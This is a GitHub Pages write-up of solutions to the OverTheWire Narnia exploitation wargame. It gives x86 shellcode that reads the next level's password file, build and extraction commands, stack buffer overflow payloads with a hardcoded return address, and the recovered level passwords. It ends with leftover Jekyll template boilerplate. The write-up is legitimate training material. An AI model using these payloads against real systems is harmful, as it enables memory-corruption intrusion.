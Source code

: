 ## Narnia Solutions

Here are short solutions I have written for Narnia levels. This is a wargame in overthewire.org. The main subject of the game is exploitation. I wrote only where I felt that there were not many sufficient solutions to the level.

### Narnia0

Well, I think that there are plany well written solutions for this level. I would like to mention, however, that the shellcode should be generated inside the shell (use python or ruby or perl, etc') because for some unusual reason, pasting a prepeared shellcode inside the shell **will not work**.


### Narnia1

To solve this level, we need to know assembly, x86 in this case (typing "lscpu" will reveal us the architecture and byte order, which are **important** for out shellcode). There are planty writeup's for this level, which most of them are incorrect (but I do recommand reading them in order to understand what is wrong), however. Moreover, I would advise you to learn how to write a shellcode in linux, because copying and pasting a shellcode from shell storm won't work in this case. So after we figure out that there is a buffer overflow with the enviromental variable, we want to inject our shellcode. Remeber, no null bytes and illegal chars!
Because spawning a regular shell won't work (the shell will be privileged with narnia1 user), we want to use the our vulnerability to open narnia2 password file. Let's dive into our shell code:
```
section .text
	global _start

_start:
	xor eax,eax
	push eax          ;end of the /bin/cat string
	push 0x7461632f
	push 0x6e69622f
	mov ebx, esp      ;ebx points to the start of the string
	push eax
	push 0x3261696e
	push 0x72616e2f
	push 0x73736170
	push 0x5f61696e
	push 0x72616e2f
	push 0x6374652f
	mov ecx, esp      ;ecx points to the start of the string (/etc/narnia_pass/narnia2)
  push eax          ;array has to end with null
	mov al, 11        ;we use execve syscall, numbered 11
	mov edx, esp      ;edx points to null (we don't need char *const envp[])
	push ecx          ;push the first arg (/etc/narnia_pass/narnia2)
	push ebx          ;push the second arg (/bin/cat
	mov ecx, esp      ;ecx points to array with two args
	int 0x80
```	
	
Now, we want to compile our code and link it, thus:
```nasm -f elf shell.asm -o shell.o
ld -m elf_i386 -s shell.o -o shell
```
(-m elf_i386 is not necessary, but was in my case)

Okay, let's extract our shellcode:
`for i in $(objdump -M intel -d shell | grep "^ "|cut -f2); do echo -n '\x'$i;done;echo`
and Wallah:
```
narnia1@narnia:~$ export EGG=`python -c "print('\x31\xc0\x50\x68\x2f\x63\x61\x74\x68\x2f\x62\x69\x6e\x89\xe3\x50\x68\x6e\x69\x61\x32\x68\x2f\x6e\x61\x72\x68\x70\x61\x73\x73\x68\x6e\x69\x61\x5f\x68\x2f\x6e\x61\x72\x68\x2f\x65\x74\x63\x89\xe1\x50\xb0\x0b\x89\xe2\x51\x53\x89\xe1\xcd\x80')"`
narnia1@narnia:/narnia$ ./narnia1
Trying to execute EGG!
nairiepecu
```

### Narnia2

Here, we are dealing with a classic buffer overflow once again. We can see that our buffer is limited, hence we can give a bigger input that exceeds our buffer size  (no input validation is done) and thus overwrite our return address from the main() function. This will allow us to jump into a place we control and execute our shellcode. I truly recommand reading phracks 'smashing the stack' article to gain better understanding of this attack: http://phrack.org/issues/49/14.html

Let's proceed to our soltuion:
First, we fire up gdb and give it an input which is bigger than expected and see what happens with our stack:
```
disas main
(we break on the address of ret, because we want to overwrite the return address)
b *0x080484b2(ret's_address, which is obviously different for everyone)
r $(python -c "print('a'*130)")
```
now let's check if our $ebp was or $esp were overwritten:
``` info reg ```
No, not yet. After trying for several times, input of 144*'a' will overwrite esp and eip (eip contains the return address).
Now, we want to overwrite the last 4 bytes with 'our' address (our controlled address). We will add our shellcode from the previous level and will change it slighlty (will read narnia3 file instead of narnia2). It's size is 59 bytes. Now, we want our controlled address be the address in the stack in which the injected shellcode starts. Therefore we will inject our shellcode and see where it starts, letting us to overwrite the eip address to point to the start of it:
```
r $(python -c "print('a'*81+'\x31\xc0\x50\x68\x2f\x63\x61\x74\x68\x2f\x62\x69\x6e\x89\xe3\x50\x68\x6e\x69\x61\x33\x68\x2f\x6e\x61\x72\x68\x70\x61\x73\x73\x68\x6e\x69\x61\x5f\x68\x2f\x6e\x61\x72\x68\x2f\x65\x74\x63\x89\xe1\x50\xb0\x0b\x89\xe2\x51\x53\x89\xe1\xcd\x80'+'aaaa')")
```
```
x/200wx $esp
0xffffd780:	0x616e2f61	0x61696e72	0x61610032	0x61616161
0xffffd790:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffd7a0:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffd7b0:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffd7c0:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffd7d0:	0x61616161	0x61616161	0x31616161	0x2f6850c0
0xffffd7e0:	0x68746163	0x6e69622f	0x6850e389	0x3361696e
0xffffd7f0:	0x616e2f68	0x61706872	0x6e687373	0x685f6169
0xffffd800:	0x72616e2f	0x74652f68	0x50e18963	0xe2890bb0
0xffffd810:	0xe1895351	0x616180cd	0x58006161	0x535f4744
```
We can see that our shellcode starts at: 0xffffd7d0+B(11 in decimal)=0xffffd7db. Additionaly, we can see that eip is overwritten by our 4 extra bytes:
```
(gdb) info frame
Stack level 0, frame at 0xffffd5b4:
 eip = 0x61616161; saved eip = 0x0
 called by frame at 0xffffd5b8
 Arglist at 0xffffd5ac, args: 
 Locals at 0xffffd5ac, Previous frame's sp is 0xffffd5b4
 Saved registers:
  eip at 0xffffd5b0
```
Okay, now we know our injection code should be the following:
```
'a'*81+'\x31\xc0\x50\x68\x2f\x63\x61\x74\x68\x2f\x62\x69\x6e\x89\xe3\x50\x68\x6e\x69\x61\x33\x68\x2f\x6e\x61\x72\x68\x70\x61\x73\x73\x68\x6e\x69\x61\x5f\x68\x2f\x6e\x61\x72\x68\x2f\x65\x74\x63\x89\xe1\x50\xb0\x0b\x89\xe2\x51\x53\x89\xe1\xcd\x80'+'\xdb\xd7\xff\xff'
```
Let's get the password:
./narnia2 `python -c "print('a'*81+'\x31\xc0\x50\x68\x2f\x63\x61\x74\x68\x2f\x62\x69\x6e\x89\xe3\x50\x68\x6e\x69\x61\x33\x68\x2f\x6e\x61\x72\x68\x70\x61\x73\x73\x68\x6e\x69\x61\x5f\x68\x2f\x6e\x61\x72\x68\x2f\x65\x74\x63\x89\xe1\x50\xb0\x0b\x89\xe2\x51\x53\x89\xe1\xcd\x80'+'\xdb\xd7\xff\xff')"`
and...........wallah:
vaequeezee





- Bulleted
- List

1. Numbered
2. List

**Bold** and _Italic_ and `Code` text

[Link](url) and ![Image](src)
```

For more details see [GitHub Flavored Markdown](https://guides.github.com/features/mastering-markdown/).

### Jekyll Themes

Your Pages site will use the layout and styles from the Jekyll theme you have selected in your [repository settings](https://github.com/int3rsys/Narnia-solutions/settings). The name of this theme is saved in the Jekyll `_config.yml` configuration file.

### Support or Contact

Having trouble with Pages? Check out our [documentation](https://help.github.com/categories/github-pages-basics/) or [contact support](https://github.com/contact) and we’ll help you sort it out.
